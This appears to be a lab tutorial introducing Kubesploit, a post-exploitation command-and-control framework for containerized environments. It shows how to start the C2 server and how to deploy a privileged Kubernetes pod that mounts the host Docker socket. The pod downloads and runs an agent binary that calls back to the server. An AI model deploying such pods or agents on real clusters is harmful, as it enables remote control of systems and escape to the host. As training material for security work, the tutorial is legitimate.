 Here we will see the basic settings of Kubesploit.

## Basics of Kubesploit

<p align="left">
  <img src="https://github.com/cyberark/kubesploit/blob/assets/1.5x/kubesploit@1.5x-100.jpg?raw=true" width="200" height="200">
</p>



Kubesploit is a cross-platform post-exploitation HTTP/2 Command & Control server and agent written in Golang, focused on containerized environments.  
More information can be found here:  
https://github.com/cyberark/kubesploit  


#### Server

	
The server is located in the `controlplane` with a configuration file `config.yaml`.    
The server uses this file to create a listener to a given protocol, interface and port.   
The server IP that should be inside the Interface is `echo $HOST_IP`{{execute}}.  

Verify that the `config.yaml` file contains the server IP address: `cat config.yaml`{{execute T1}}

Start the server `./kubesploitServer-Linux-x64`{{execute T1}}.    
To view the menu, run `help`{{execute}} and to see the list of modules run `use module <TAB>`.  
*You can use the `TAB` in any place to see the list commands.  


#### Agent

`Open`{{execute T3}} new terminal on the master and start this vulnerable container:  
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: priv-container
spec:
  containers:
  - name: priv-container
    image: ubuntu
    command: [ "sh", "-c", "apt update && apt install wget -y && wget https://github.com/g3rzi/katacodaScenario/releases/download/0.1/kubesploitAgent-Linux-x64_katacoda && chmod +x kubesploitAgent-Linux-x64_katacoda && ./kubesploitAgent-Linux-x64_katacoda -url https://$HOST_IP:443", "sleep infinity" ]
    securityContext:
      privileged: true
    volumeMounts:
    - name: docker-sock
      mountPath: /var/run/docker.sock
  volumes:
  - name: docker-sock
    hostPath:
      path: /var/run/docker.sock
EOF```{{execute T2}}  



Go to the first terminal of the master and check if a new connection was received with the message "New authenticated agent checkin..".  
Once you see it, run `main`{{execute T1}} and then `agent list`{{execute T1}} to see the new connection details.  

